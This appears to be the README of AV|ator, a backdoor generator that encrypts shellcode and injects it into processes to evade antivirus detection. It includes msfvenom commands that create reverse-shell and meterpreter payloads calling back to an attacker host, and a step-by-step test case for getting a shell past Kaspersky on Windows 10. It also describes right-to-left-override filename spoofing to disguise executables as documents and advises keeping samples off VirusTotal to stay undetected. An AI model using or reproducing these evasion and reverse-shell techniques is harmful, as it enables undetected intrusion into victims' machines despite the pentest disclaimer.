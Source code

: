 ### DO NOT UPLOAD ANY SAMPLES TO VIRUS TOTAL ...as I did it one time for you

*Current Detection Rate*: 3/71

SHA-256	e6a5299d4c081140a563ff5a64a94f1543480efeb78d5036f703004d64b4bed2

File name	t9jkoek.exe

File size	15.5 KB

Last analysis	2019-04-29 08:26:13 UTC

https://www.virustotal.com/#/file/e6a5299d4c081140a563ff5a64a94f1543480efeb78d5036f703004d64b4bed2/detection

![Screenshot 2019-04-29 at 11 33 11](https://user-images.githubusercontent.com/4659186/56884557-d9899800-6a72-11e9-8bb5-95872da1407d.png)

# AV|ator

AV|ator is a backdoor generator utility, which uses cryptographic and injection techniques in order to bypass AV detection. More specifically:
- It uses AES encryption in order to encrypt a given shellcode 
- Generates an executable file which contains the encrypted payload
- The shellcode is decrypted and injected to the target system using various injection techniques 

[https://attack.mitre.org/techniques/T1055/]:

1. Portable executable injection which involves writing malicious code directly into the process (without a file on disk) then invoking execution with either additional code or by creating a remote thread. The displacement of the injected code introduces the additional requirement for functionality to remap memory references. Variations of this method such as reflective DLL injection (writing a self-mapping DLL into a process) and memory module (map DLL when writing into process) overcome the address relocation issue. 

2. Thread execution hijacking which involves injecting malicious code or the path to a DLL into a thread of a process. Similar to Process Hollowing, the thread must first be suspended.

### Usage

The application has a form which consists of three main inputs (See screenshot bellow):

![Screenshot 2019-04-29 at 11 41 21](https://user-images.githubusercontent.com/4659186/56884876-bca19480-6a73-11e9-8bbf-d249c4813e4e.png)


1.	A text containing the encryption key used to encrypt the shellcode 
2.	A text containing the IV used for AES encryption 
3.	A text containing the shellcode 

Important note: The shellcode should be provided as a C# byte array. 

The default values contain shellcode that executes notepad.exe (32bit). This demo is provided as an indication of how the code should be formed (using msfvenom, this can be easily done with the -f csharp switch, e.g. msfvenom -p windows/meterpreter/reverse_tcp LHOST=X.X.X.X  LPORT=XXXX -f csharp). 

After filling the provided inputs and selecting the output path an executable is generated according to the chosen options. 

### RTLO option

In simple words, spoof an executable file to look like having an "innocent" extention like 'pdf', 'txt' etc. 
E.g. the file "testcod.exe" will be interpreted as "tesexe.doc" 

Beware of the fact that some AVs alert the spoof by its own as a malware. 

### Set custom icon

I guess you all know what it is :)

### Bypassing Kaspersky AV on a Win 10 x64 host (TEST CASE) 

Getting a shell in a windows 10 machine running fully updated kaspersky AV 

#### Target Machine: Windows 10 x64 

1. Create the payload using msfvenom 

    msfvenom -p windows/x64/shell/reverse_tcp_rc4 LHOST=10.0.2.15 LPORT=443 EXITFUNC=thread RC4PASSWORD=S3cr3TP4ssw0rd -f csharp

2. Use AVIator with the following settings

    Target OS architecture: x64

    Injection Technique: Thread Hijacking (Shellcode Arch: x64, OS arch: x64) 

    Target procedure: explorer (leave the default)

3. Set the listener on the attacker machine

4. Run the generated exe on the victim machine



### Installation

**Windows:**

Either compile the project or download the allready compiled executable from the following folder:

https://github.com/Ch0pin/AVIator/tree/master/Compiled%20Binaries

**Linux:**

Install Mono according to your linux distribution, download and run the binaries

e.g. in kali:

root@kali# apt install mono-devel 

root@kali# mono aviator.exe


### Credits
To Damon Mohammadbagher for the encryption procedure

### Disclaimer 

I developed this app in order to overcome the demanding challenges of the pentest procedure and this is the only way that the app should be used. Make sure that you have the required permission to use it against a system and never use it for illegal purposes. 
I would suggest to avoid testing the executables on solutions like virus total e.t.c. If you want to use the application for pentesting purposes I am sure you have already identified the AV used by your target, so go download a demo and make your testing offline. 


